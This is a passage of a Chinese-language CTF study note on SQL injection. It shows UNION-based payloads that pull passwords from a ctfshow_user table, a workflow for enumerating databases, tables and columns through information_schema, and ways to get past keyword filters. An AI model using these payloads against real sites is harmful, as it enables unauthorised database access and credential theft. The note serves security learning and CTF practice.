   ```sql
  index.php?id=1 /! UNION/ /! SELECT/ 1,2,3
  ```

- 实际上，只要确保语句正常返回即可，注释或者构造闭合都一样
  像单引号：
  （万能密码也是一样的道理，使得where处为真即可）

  ```sql
  1' union select 1,password,3 from ctfshow_user #
  
  1' union select 1,password,3 from ctfshow_user where 'a'='a
  ```
  



具体可以看本人早期写的：[sql注入的一些基操 - Na0H](https://na0h.cn/2020/12/30/sql注入的一些基操/)
但当时有些东西理解不深，可能存在一些问题，看到的师傅还请不吝指正



### 基本流程

- 找注入点如：

  - GET/POST/PUT/DELETE参数
  - X-Forwarded-For
  - 文件名

- 判断闭合方式像：数字型、单双引号、括号等等

- 然后判断字段数、回显位

  ```sql
  1’ order by 1--+
  1’ union select 1,2,3 –+
  ```

- 然后库、表、字段、数据

  ```sql
  select schema_name from information_schema.schemata
  select table_name from information_schema.tables where table_schema=’xxx’
  select column_name from information_schema.columns where table_name=’xxx’
  select group_concat(xxx) from xxx
  ```



### 过滤绕过

  - 过滤关键字
    `bypass`：

    - `大小写`绕过（适用：过滤方式对`大小写敏感`）
    - `双写`绕过（适用：过滤方式为`将关键字替换为空`）
    - `编码`绕过
    - `内联注释`绕过（`/*！code */`）

  - 过滤特殊符号
